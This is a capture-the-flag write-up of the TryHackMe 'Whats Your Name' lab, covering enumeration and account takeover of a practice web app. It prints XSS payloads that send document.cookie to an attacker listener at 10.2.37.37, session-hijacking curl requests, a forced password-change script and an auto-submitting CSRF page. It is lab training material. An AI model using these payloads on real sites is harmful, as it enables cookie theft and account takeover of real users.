

# TryHackMe-Whats Your Name

**Scope:**

- CSRF (Cross-Site Request Forgery)
- XSS (Cross-Site Scripting)

**Keywords:**

- Account Takeover with XSS
- Directory Scan
- Session Cookie
- Cookie Manipulation
- Cookie Hijacking
- XSS Payloads
- CSRF Method

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt --min-rate=1000 --max-retries=3 -Pn $target_ip`
- `ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://worldwap.thm/FUZZ' -ic -t 100 -mc 200,301,403`
- `ffuf -w /usr/share/wordlists/dirb/big.txt -u 'http://worldwap.thm/api/FUZZ' -ic -t 100 -mc 200,301,403`
- `gobuster dir -u http://worldwap.thm/api -w /usr/share/wordlists/dirb/big.txt -e -b 404,500 -x php --random-agent`
- `curl --path-as-is -i -s -k -X $'POST' -H $'Content-Type: application/json' -H $'X-THM-API-Key: e8d25b4208b80008a9e15c8698640e85' -b $'PHPSESSID=ni6sndnh3bauvdc64d28674em0' --data-binary $'{\"username\":\"overthenet\",\"password\":\"overthenet\",\"email\":\"overthenet@overthenet.thm\",\"name\":\"overthenet\"}' $'http://worldwap.thm/api/register.php'`
- `curl --path-as-is -iLsk -X $'POST' -H $'Content-Type: application/json' -H $'X-THM-API-Key: e8d25b4208b80008a9e15c8698640e85' -b $'PHPSESSID=ni6sndnh3bauvdc64d28674em0' --data-binary $'{\"username\":\"anyuser",\"password\":\"anyuser\",\"email\":\"anyuser@overthenet.thm\",\"name\":\"anyuser\"}' $'http://worldwap.thm/api/register.php'`
- `gobuster dir -u http://worldwap.thm/public/html -w /usr/share/wordlists/dirb/big.txt -e -b 404,500 -x php --random-agent -t 100`
- `python3 -m http.server 80`
- `echo 'UEhQU0VTU0lEPXZobjBnNWpqajNtczI0bWxuYzNlM242cG02' | base64 -d`
- `curl --path-as-is -i -s -k -X $'POST' -H $'Host: login.worldwap.thm' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 24' -H $'Origin: http://login.worldwap.thm' -H $'Connection: keep-alive' -H $'Referer: http://login.worldwap.thm/change_password.php' -H $'Upgrade-Insecure-Requests: 1' -b $'PHPSESSID=vhn0g5jjj3ms24mlnc3e3n6pm6' --data-binary $'new_password=anypassword' $'http://login.worldwap.thm/change_password.php'`
- `curl --path-as-is -iLsk -X $'POST' -H $'Host: login.worldwap.thm' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 47' -H $'Origin: http://login.worldwap.thm' -H $'Connection: keep-alive' -H $'Referer: http://login.worldwap.thm/chat.php' -H $'Upgrade-Insecure-Requests: 1' -b $'PHPSESSID=vhn0g5jjj3ms24mlnc3e3n6pm6' --data-binary $'message=%3Cscript%3Ealert%281%29%3C%2Fscript%3E' $'http://login.worldwap.thm/chat.php'`

**System Commands:**

- `<script>fetch('http://10.2.37.37/?'+btoa(document.cookie));</script>`
- `<script>var i=new Image(); i.src="http://10.2.37.37/?cookie="+document.cookie;</script>`
- `<script>document.location="http://10.2.37.37/cookie?c="+document.cookie</script>`
- `<script>alert(1)</script>`
- `<script>fetch('/change_password.php',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:"new_password=overthenethere"});</script>`

### Laboratory Environment

[TryHackMe | Cyber Security Training](https://tryhackme.com/r/room/whatsyourname)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt --min-rate=1000 --max-retries=3 -Pn $target_ip`

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 30:4d:33:80:d2:42:b7:79:de:bd:fd:34:db:56:7a:86 (RSA)
|   256 82:1d:3c:a7:ca:f8:ac:45:f8:43:28:31:2a:81:3b:cd (ECDSA)
|_  256 93:0f:bd:51:90:49:57:d3:32:71:3b:31:90:a5:79:dc (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: Welcome
|_Requested resource was /public/html/
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
8081/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

> **Directory Scan & Endpoint Control**
> 

`ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://worldwap.thm/FUZZ' -ic -t 100 -mc 200,301,403`

```bash
public                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 317ms]
api                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 321ms]
javascript              [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 324ms]
phpmyadmin              [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 330ms]
```

`ffuf -w /usr/share/wordlists/dirb/big.txt -u 'http://worldwap.thm/api/FUZZ' -ic -t 100 -mc 200,301,403`

```bash
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 335ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 349ms]
```

`gobuster dir -u http://worldwap.thm/api -w /usr/share/wordlists/dirb/big.txt -e -b 404,500 -x php --random-agent`

```bash
http://worldwap.thm/api/.htaccess            (Status: 403) [Size: 277]
http://worldwap.thm/api/.htaccess.php        (Status: 403) [Size: 277]
http://worldwap.thm/api/.htpasswd            (Status: 403) [Size: 277]
http://worldwap.thm/api/.htpasswd.php        (Status: 403) [Size: 277]
http://worldwap.thm/api/add_post.php         (Status: 200) [Size: 34]
http://worldwap.thm/api/config.php           (Status: 200) [Size: 0]
http://worldwap.thm/api/index.php            (Status: 200) [Size: 0]
http://worldwap.thm/api/login.php            (Status: 200) [Size: 34]
http://worldwap.thm/api/logout.php           (Status: 200) [Size: 42]
http://worldwap.thm/api/mod.php              (Status: 200) [Size: 25]
http://worldwap.thm/api/posts.php            (Status: 200) [Size: 25]
http://worldwap.thm/api/register.php         (Status: 200) [Size: 48]
http://worldwap.thm/api/setup.php            (Status: 200) [Size: 16]
```

`curl -iLX GET http://worldwap.thm/api/config.php`

```bash
HTTP/1.1 200 OK
Date: Wed, 16 Oct 2024 09:41:57 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

`curl -iLX POST http://worldwap.thm/api/add_post.php`

```bash
HTTP/1.1 200 OK
Date: Wed, 16 Oct 2024 09:43:08 GMT
Server: Apache/2.4.41 (Ubuntu)
Set-Cookie: PHPSESSID=t8g9a3p2bi4dsvd4t9e7bvon5j; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 37
Content-Type: application/json

{"error":"Only admins can add posts"}
```

`curl -iLX GET http://worldwap.thm/api/mod.php` 

```bash
HTTP/1.1 200 OK
Date: Wed, 16 Oct 2024 09:47:57 GMT
Server: Apache/2.4.41 (Ubuntu)
Set-Cookie: PHPSESSID=eh69tcgln6mcaq4uj1d8klbtsd; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 25
Content-Type: application/json

{"error":"Not logged in"}
```

`curl -iLX GET -D response.txt http://worldwap.thm/public`

```bash
HTTP/1.1 301 Moved Permanently
Date: Wed, 16 Oct 2024 08:11:33 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: http://worldwap.thm/public/
Content-Length: 313
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Wed, 16 Oct 2024 08:11:33 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1499
Content-Type: text/html;charset=UTF-8

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /public</title>
 </head>
 <body>
<h1>Index of /public</h1>
  <table>
   <tr><th valign="top"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="css/">css/</a></td><td align="right">2024-04-08 15:30  </td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="html/">html/</a></td><td align="right">2024-04-09 15:06  </td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="images/">images/</a></td><td align="right">2024-03-19 21:00  </td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="js/">js/</a></td><td align="right">2024-04-08 15:30  </td><td align="right">  - </td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.41 (Ubuntu) Server at worldwap.thm Port 80</address>
</body></html>
```

`curl -iLX GET -D responsehtml.txt http://worldwap.thm/public/html`

```bash
HTTP/1.1 301 Moved Permanently
Date: Wed, 16 Oct 2024 08:13:28 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: http://worldwap.thm/public/html/
Content-Length: 318
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Wed, 16 Oct 2024 08:13:28 GMT
Server: Apache/2.4.41 (Ubuntu)
Set-Cookie: PHPSESSID=pep4ui3vjl2oie0dqih5dtaoef; path=/; domain=.worldwap.thm
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 1797
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html>
<head>
    <title>Welcome</title>
    <link rel="stylesheet" href="../css/bootstrap.min.css">
</head>
<body>
    <nav class="navbar navbar-expand-lg navbar-dark bg-dark">
        <div class="container">
            <a class="navbar-brand" href="index.php">WorldWAP</a>
            <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarNav" aria-controls="navbarNav" aria-expanded="false" aria-label="Toggle navigation">
                <span class="navbar-toggler-icon"></span>
            </button>
            <div class="collapse navbar-collapse" id="navbarNav">
                <ul class="navbar-nav ml-auto"> 
                    <li class="nav-item">
                        <a class="nav-link" href="register.php">Register</a>
                    </li>
                </ul>
            </div>
        </div>
    </nav>

    <div class="container mt-4">
        <!-- Added Section About Upcoming Social Networking Site -->
        <section id="upcoming-platform">
            <div class="row">
                <div class="col-lg-12">
                    <h2 class="text-center">Exciting News!</h2>
                    <p>We are thrilled to announce that a new era of social networking is on the horizon. <strong>WorldWAP</strong>, our upcoming platform, will revolutionize the way you connect, share, and engage with your world. Stay tuned for more details!</p>
                    <p class="text-center"></p>
                </div>
            </div>
        </section>
        <!-- End of Added Section -->

    </div>

    <script src="../js/slim.min.js"></script>
    <script src="../js/bootstrap.min.js"></script>
</body>
</html>
```

`curl -iLX GET -D registerresponse.txt http://worldwap.thm/public/html/register.php`

```bash
HTTP/1.1 200 OK
Date: Wed, 16 Oct 2024 08:14:29 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2188
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html>
<head>
    <title>Register</title>
    <link rel="stylesheet" href="../css/bootstrap.min.css">
    <link rel="stylesheet" href="../css/styles.css">
    <script src="../js/register.js"></script>
</head>
<body>
    <nav class="navbar navbar-expand-lg navbar-dark bg-dark">
        <div class="container">
            <a class="navbar-brand" href="index.php">WorldWAP</a>
            <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarNav" aria-controls="navbarNav" aria-expanded="false" aria-label="Toggle navigation">
                <span class="navbar-toggler-icon"></span>
            </button>
            <div class="collapse navbar-collapse" id="navbarNav">
                <ul class="navbar-nav ml-auto">

                    <li class="nav-item">
                        <a class="nav-link" href="register.php">Register</a>
                    </li>
                </ul>
            </div>
        </div>
    </nav>

    <div class="container mt-4">
    <h2 class="text-center">Register</h2>
    <p class="text-center">You can now pre-register! Your details will be reviewed by the site moderator.</p>
    <form id="registerForm" class="mt-1">
        <div class="form-group">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" class="form-control">
        </div>
        <div class="form-group">
            <label for="password">Password:</label>
            <input type="password" id="password" name="password" class="form-control">
        </div>
        <div class="form-group">
            <label for="email">Email:</label>
            <input type="email" id="email" name="email" class="form-control">
        </div>
        <div class="form-group">
            <label for="name">Name:</label>
            <input type="text" id="name" name="name" class="form-control">
        </div>
        <input type="button" value="Register" onclick="register()" class="btn btn-primary">
    </form>
    <script src="../js/slim.min.js"></script>
    <script src="../js/bootstrap.min.js"></script>
</body>
</html>
```




`curl --path-as-is -i -s -k -X $'POST' -H $'Content-Type: application/json' -H $'X-THM-API-Key: e8d25b4208b80008a9e15c8698640e85' -b $'PHPSESSID=ni6sndnh3bauvdc64d28674em0' --data-binary $'{\"username\":\"overthenet\",\"password\":\"overthenet\",\"email\":\"overthenet@overthenet.thm\",\"name\":\"overthenet\"}' $'http://worldwap.thm/api/register.php'`

```bash
HTTP/1.1 200 OK
Date: Wed, 16 Oct 2024 08:21:58 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 86
Content-Type: application/json

{"error":"Registration failed: Duplicate entry 'overthenet' for key 'users.username'"} 
```

`curl --path-as-is -iLsk -X $'POST' -H $'Content-Type: application/json' -H $'X-THM-API-Key: e8d25b4208b80008a9e15c8698640e85' -b $'PHPSESSID=ni6sndnh3bauvdc64d28674em0' --data-binary $'{\"username\":\"anyuser",\"password\":\"anyuser\",\"email\":\"anyuser@overthenet.thm\",\"name\":\"anyuser\"}' $'http://worldwap.thm/api/register.php'`

```bash
HTTP/1.1 200 OK
Date: Wed, 16 Oct 2024 08:23:03 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 38
Content-Type: application/json

{"message":"Registration successful."} 
```


`nano /etc/hosts`

```bash
10.10.0.230     worldwap.thm login.worldwap.thm
```

`curl -iLX GET -D loginsubresponse.txt http://login.worldwap.thm`

```bash
HTTP/1.1 200 OK
Date: Wed, 16 Oct 2024 08:25:28 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 70
Content-Type: text/html; charset=UTF-8

<!-- login.php should be updated by Monday for proper redirection -->
```

`curl -iLX GET -D loginsubresponse.txt http://login.worldwap.thm/login.php`

```bash
HTTP/1.1 200 OK
Date: Wed, 16 Oct 2024 08:25:59 GMT
Server: Apache/2.4.41 (Ubuntu)
Set-Cookie: PHPSESSID=3iq61ppuedj2pfi3t325n4pe2r; path=/; domain=.worldwap.thm
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 3108
Content-Type: text/html; charset=UTF-8

</head>
<body>
    <div class="login-container">
        <h1>Login</h1>
                    <p class="error"></p>
                <form action="login.php" method="post">
            <div>
                <label for="username">Username</label>
                <input type="text" id="username" name="username" placeholder="Enter your username" required>
            </div>
            <div>
                <label for="password">Password</label>
                <input type="password" id="password" name="password" placeholder="Enter your password" required>
            </div>
            <button type="submit">Login</button>
        </form>
    </div>
</body>
</html>
```


`gobuster dir -u http://worldwap.thm/public/html -w /usr/share/wordlists/dirb/big.txt -e -b 404,500 -x php --random-agent -t 100`

```bash
http://worldwap.thm/public/html/.htaccess            (Status: 403) [Size: 277]
http://worldwap.thm/public/html/.htpasswd            (Status: 403) [Size: 277]
http://worldwap.thm/public/html/.htaccess.php        (Status: 403) [Size: 277]
http://worldwap.thm/public/html/.htpasswd.php        (Status: 403) [Size: 277]
http://worldwap.thm/public/html/admin.php            (Status: 403) [Size: 0]
http://worldwap.thm/public/html/dashboard.php        (Status: 403) [Size: 0]
http://worldwap.thm/public/html/index.php            (Status: 200) [Size: 1797]
http://worldwap.thm/public/html/login.php            (Status: 200) [Size: 1785]
http://worldwap.thm/public/html/logout.php           (Status: 200) [Size: 154]
http://worldwap.thm/public/html/mod.php              (Status: 403) [Size: 0]
http://worldwap.thm/public/html/register.php         (Status: 200) [Size: 2188]
http://worldwap.thm/public/html/upload.php           (Status: 403) [Size: 0]
```

`curl -iLX GET http://worldwap.thm/public/html/upload.php`

```bash
HTTP/1.1 403 Forbidden
Date: Wed, 16 Oct 2024 09:53:56 GMT
Server: Apache/2.4.41 (Ubuntu)
Set-Cookie: PHPSESSID=9sassp9ueptl13k524o5557chg; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

> **Cross Site Scripting (XSS) Phase**
> 

`python3 -m http.server 80`

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


**PAYLOAD:**

```bash
<script>fetch('http://10.2.37.37/?'+btoa(document.cookie));</script>
```


**ANOTHER PAYLOAD:**

```bash
<script>var i=new Image(); i.src="http://10.2.37.37/?cookie="+document.cookie;</script>
```


ANOTHER PAYLOAD:

```bash
<script>document.location="http://10.2.37.37/cookie?c="+document.cookie</script>
```

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.85.25 - - [16/Oct/2024 05:02:16] "GET /?UEhQU0VTU0lEPXZobjBnNWpqajNtczI0bWxuYzNlM242cG02 HTTP/1.1" 200 -
```

`echo 'UEhQU0VTU0lEPXZobjBnNWpqajNtczI0bWxuYzNlM242cG02' | base64 -d`

```bash
PHPSESSID=vhn0g5jjj3ms24mlnc3e3n6pm6
```

> **Moderator Account Takeover Phase**
> 


> **Admin Account Takeover**
> 


`curl --path-as-is -i -s -k -X $'POST' -H $'Host: login.worldwap.thm' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 24' -H $'Origin: http://login.worldwap.thm' -H $'Connection: keep-alive' -H $'Referer: http://login.worldwap.thm/change_password.php' -H $'Upgrade-Insecure-Requests: 1' -b $'PHPSESSID=vhn0g5jjj3ms24mlnc3e3n6pm6' --data-binary $'new_password=anypassword' $'http://login.worldwap.thm/change_password.php'`

```bash
HTTP/1.1 200 OK
Date: Wed, 16 Oct 2024 09:13:49 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 6430
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

    </head>
    <body>
    <div class="top-nav">
        <div class="search-container">
            <div class="fb-logo">
                        WORLD WAP
                <!-- -->
            </div>
            <input class="search-bar" type="text" placeholder="Search">
        </div>
        <div class="nav-welcome">
            Welcome Moderator        </div>
        <div class="nav-links">
            <a href="change_password.php">Change Password</a>
            <a href="chat.php">Go to Chat</a>
            <a href="logout.php">Logout</a>
        </div>
    </div>

        <div class="change-password-container">
            <h2>Change Password</h2>
                            <p style="color: green;">This feature is under development and works only if you are logged in as an admin.</p>
                        <form action="change_password.php" method="post">
                <div>
                    <input type="password" id="new_password" name="new_password" placeholder="Enter your new password" required>
                </div>
                <button type="submit">Change Password</button>
            </form>
        </div>
    </body>
    </html>

```


**PAYLOAD:**

```bash
<script>alert(1)</script>
```

`curl --path-as-is -iLsk -X $'POST' -H $'Host: login.worldwap.thm' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 47' -H $'Origin: http://login.worldwap.thm' -H $'Connection: keep-alive' -H $'Referer: http://login.worldwap.thm/chat.php' -H $'Upgrade-Insecure-Requests: 1' -b $'PHPSESSID=vhn0g5jjj3ms24mlnc3e3n6pm6' --data-binary $'message=%3Cscript%3Ealert%281%29%3C%2Fscript%3E' $'http://login.worldwap.thm/chat.php'`

```bash
HTTP/1.1 302 Found
Date: Wed, 16 Oct 2024 09:17:32 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: chat.php
Content-Length: 0
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

HTTP/1.1 200 OK
Date: Wed, 16 Oct 2024 09:17:32 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 2198
Connection: close
Content-Type: text/html; charset=UTF-8

```


**PAYLOAD:**

```bash
<script>fetch('/change_password.php',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:"new_password=overthenethere"});</script>
```


> **Another Method for Account Takeover with CSRF**
> 

`nano malhtml.html`

```bash
<!DOCTYPE html>
<html>
<head>
	<title>CSRF</title>
</head>
<body>
<form id="autosubmit" action="http://login.worldwap.thm/change_password.php" enctype="application/x-www-form-urlencoded" method="POST">
 <input name="new_password" type="hidden" value="password" />
</form>
<script>
 document.getElementById("autosubmit").submit();
</script>
</body>
</html>
```


```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.2.37.37 - - [16/Oct/2024 05:28:55] "GET /malhtml.html HTTP/1.1" 200 -
```

# Appendix

## CSRF (Cross-Site Request Forgery)

<aside>
💡

CSRF (Cross-Site Request Forgery) is a type of web security vulnerability where an attacker tricks a user into performing actions on a different website, where the user is authenticated, without their knowledge or consent. Essentially, the attacker exploits the trust a website has in the user's browser. Imagine a user is logged into their banking site. While browsing, they click on a link that sends a hidden request to transfer money. If the banking site doesn’t protect against CSRF, it will execute the transaction, transferring the user's money without their intention.

</aside>

## XSS (Cross-Site Scripting)

<aside>
💡

XSS (Cross-Site Scripting) is a security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. These scripts can be used to steal data, hijack user sessions, redirect users to malicious websites, or perform actions on behalf of the user without their consent.

</aside>